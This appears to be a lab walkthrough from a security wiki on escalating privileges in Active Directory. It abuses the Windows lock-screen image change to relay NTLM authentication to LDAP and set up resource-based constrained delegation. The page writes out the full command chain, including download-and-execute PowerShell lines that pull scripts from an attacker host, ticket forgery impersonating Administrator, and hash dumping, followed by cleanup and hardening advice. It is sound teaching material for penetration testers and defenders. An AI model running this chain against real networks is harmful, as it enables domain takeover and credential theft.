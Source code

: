 ```yaml
---
description: >-
  Abuse the lockscreen image changing functionality to achieve a webdav network
  authentication as SYSTEM from the given computer. Then relay the
  authentication to the Active Directory LDAP service in or
---
```


# Change-LockScreen

## Configuring

1. Login to `WEB01` as the `Administrator` user with password `Welcome01!`.
2. Open PowerShell and execute the following command to enable WebDav.

```
Install-WindowsFeature WebDAV-Redirector –Restart
```

2\. After the server restarts Open the "Windows Defender Firewall" to open up the SMB port.

![](<../../../.gitbook/assets/image (38).png>)

3\. Click on "Allow an app or feature through Windows Defender Firewall"

![](<../../../.gitbook/assets/image (2).png>)

4\. Select "File and Printer sharing" and click on "OK"

![](<../../../.gitbook/assets/image (23).png>)

## Attacking

### How it works

Abuse the lockscreen image changing functionality to achieve a webdav network authentication as SYSTEM from the given computer. Then relay the authentication to the Active Directory LDAP service in order to set up Resource-Based Constrained Delegation to that specific machine.

### Tools

* [Powermad](https://github.com/Kevin-Robertson/Powermad)
* [Invoke-DNSUpdate](https://github.com/Kevin-Robertson/Powermad/blob/master/Invoke-DNSUpdate.ps1)
* [Change-LockScreen](https://github.com/nccgroup/Change-Lockscreen)
* [Impacket](https://github.com/SecureAuthCorp/impacket)

### Executing the attack

#### Prerequisite

* Low priv shell on a machine
* An account with a SPN associated (or able to add new machines accounts (default value this quota is 10))
* WebDAV Redirector feature must be installed on the victim machine. (W10 has it by default, but manually installed on server 2016 and later)
* A DNS record pointing to the attacker’s machine (By default authenticated users can do this)

#### Executing the attack

1. It is expected that a low privileged shell is already gained on `Web01` through the SQL server.

{% content-ref url="../sql-server-attacks/executing-commands.md" %}
[executing-commands.md](../sql-server-attacks/executing-commands.md)
{% endcontent-ref %}

2\. Get the machine account Qouta from the domain with crackmapexec:

```
crackmapexec ldap 10.0.0.5 -u richard -p Sample123 -M MAQ
```

![](<../../../.gitbook/assets/image (9).png>)

The machine account qouta is 10, meaning we (all authenticated users) can create our own computerobject in the domain.

2\. Create machine account `FAKE01` with password `123456` with PowerMad:

```
iex (iwr http://192.168.248.3:8090/Powermad.ps1 -usebasicparsing)
New-MachineAccount -MachineAccount FAKE01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

![](<../../../.gitbook/assets/image (56).png>)

3\. Create a DNS record for webdav to our attacking machine with Invoke-DNSUpdate. The DNS record is required for webdav connection to work. It won't connect through an IP only with a hostname.

```
iex (iwr http://192.168.248.3:8090/Invoke-DNSUpdate.ps1 -usebasicparsing)
Invoke-DNSUpdate -DNSType A -DNSName webdav.amsterdam.bank.local -DNSData 192.168.248.3 -Realm amsterdam.bank.local
```

![](<../../../.gitbook/assets/image (19).png>)

We now have all our prerequisites. Time to escalate our privileges.

4\. Run NTLMRelay on our Kali machine and set it up so it will write the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute that allows our created computerobject `FAKE01` to actonbehalf `WS01`:

```
python3 /opt/impacket/examples/ntlmrelayx.py -t ldap://10.0.0.3 --delegate-access --escalate-user FAKE01$ --serve-image ./image.jpg
```

![](<../../../.gitbook/assets/image (34).png>)

5\. Run the Change-LockScreen tool in the shell of WS01 and check the ntlmrelay output. The Change-LockScreen command will give an error but this doesn't matter:

```
iex (iwr http://192.168.248.3:8090/Change-Lockscreen.ps1 -usebasicparsing)
change-lockscreen -webdav \\webdav@80\
```

![](../../../.gitbook/assets/image.png)

When we check the ntlmrelay output we see that `FAKE01` can now impersonate users on `WEB01`.

![](<../../../.gitbook/assets/image (64).png>)

If we open the attribute editor on DC02 for WEB01 we can see the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute:

![](<../../../.gitbook/assets/image (51) (1) (1).png>)

6\. Create a ticket using `FAKE01` impersonating the domain admin `Administrator` using impackets getST.py. Fill in the password `123456`.

```
getST.py amsterdam/FAKE01@10.0.0.5 -spn cifs/web01.amsterdam.bank.local -impersonate administrator -dc-ip 10.0.0.3
```

![](<../../../.gitbook/assets/image (32).png>)

7\. Use this ticket and run `secretsdump.py` to dump the local admin hashes of `WEB01`.

```
export KRB5CCNAME=administrator.ccache
secretsdump.py -k -no-pass web01.amsterdam.bank.local
```

![](<../../../.gitbook/assets/image (44).png>)

### Cleanup

1. Login to `DC02` as `Administrator` with the password `Welcome01!`.
2. Execute the following command to remove the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute from `WEB01`.

```
Set-ADComputer -PrincipalsAllowedToDelegateToAccount $null -Identity web01
```

3\. Execute the following command to remove the `FAKE01` computer we created:

```
Get-ADComputer fake01 | Remove-ADObject
```

4\. Open "DNS Manager" and expand DC02 --> Forward Lookup Zones --> and click on `Amsterdam.bank.local.`Remove the DNS-record created for webdav:

![](<../../../.gitbook/assets/image (33) (1).png>)

4\. From our Kali machine set the SQL server settings back:

```
mssql-cli -S 10.0.0.5 -U sa -P sa
EXEC sp_configure 'xp_cmdshell',0
RECONFIGURE
EXEC sp_configure 'show advanced options',0
RECONFIGURE
```

## Defending

### Recommendations

* Change who can add computers to the domain.

{% content-ref url="../../../defence/hardening/change-who-can-join-computers-to-the-domain.md" %}
[change-who-can-join-computers-to-the-domain.md](../../../defence/hardening/change-who-can-join-computers-to-the-domain.md)
{% endcontent-ref %}

* Add privileged users to the protected users group.

{% content-ref url="../../../defence/hardening/protected-users-group.md" %}
[protected-users-group.md](../../../defence/hardening/protected-users-group.md)
{% endcontent-ref %}

* Add the flag "Account is sensitive and cannot be delegated".

{% content-ref url="../../../defence/hardening/account-is-sensitive-and-cannot-be-delegated.md" %}
[account-is-sensitive-and-cannot-be-delegated.md](../../../defence/hardening/account-is-sensitive-and-cannot-be-delegated.md)
{% endcontent-ref %}

* Remove the WebDav client from servers and workstations.

### Detection



## References

{% embed url="https://research.nccgroup.com/2019/08/20/kerberos-resource-based-constrained-delegation-when-an-image-change-leads-to-a-privilege-escalation" %}

{% embed url="https://github.com/Kevin-Robertson/Powermad" %}

{% embed url="https://github.com/Kevin-Robertson/Powermad/blob/master/Invoke-DNSUpdate.ps1" %}

{% embed url="https://github.com/SecureAuthCorp/impacket" %}
